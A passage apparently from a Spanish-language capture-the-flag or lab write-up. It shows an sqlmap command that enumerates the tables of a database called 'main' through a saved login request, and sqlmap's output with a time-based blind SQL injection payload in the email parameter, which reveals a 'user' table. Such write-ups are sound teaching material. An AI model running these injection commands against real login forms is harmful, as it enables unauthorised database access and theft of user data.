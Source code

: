 Veamos si puede obtener las tablas de la **BD main**, indicándole la BD (`-D`) y que obtenga las tablas (`--tables`): 
```bash
sqlmap -r loginRequest.txt --batch --dbs -D main --tables
        ___
       __H__                                                                                                                                                                                                     
 ___ ___[.]_____ ___ ___  {1.8.9#stable}                                                                                                                                                                         
|_ -| . [']     | .'| . |                                                                                                                                                                                        
|___|_  [(]_|_|_|__,|  _|                                                                                                                                                                                        
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                     

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:17:24 /2024-10-14/

[19:17:24] [INFO] parsing HTTP request from 'loginRequest.txt'
[19:17:24] [INFO] resuming back-end DBMS 'mysql' 
[19:17:24] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test1@test.com' AND (SELECT 2081 FROM (SELECT(SLEEP(5)))LEKh) AND 'Jmin'='Jmin&password=test123
---
[19:17:24] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[19:17:24] [INFO] fetching database names
[19:17:24] [INFO] fetching number of databases
[19:17:24] [INFO] resumed: 2
[19:17:24] [INFO] resumed: information_schema
[19:17:24] [INFO] resumed: main
available databases [2]:
[*] information_schema
[*] main

[19:17:24] [INFO] fetching tables for database: 'main'
[19:17:24] [INFO] fetching number of tables for database 'main'
[19:17:24] [INFO] resumed: 3
[19:17:24] [INFO] resumed: blog
[19:17:24] [INFO] resumed: blog_comments
[19:17:24] [INFO] resumed: user
Database: main
[3 tables]
+---------------+
| user          |
| blog          |
| blog_comments |
+---------------+

```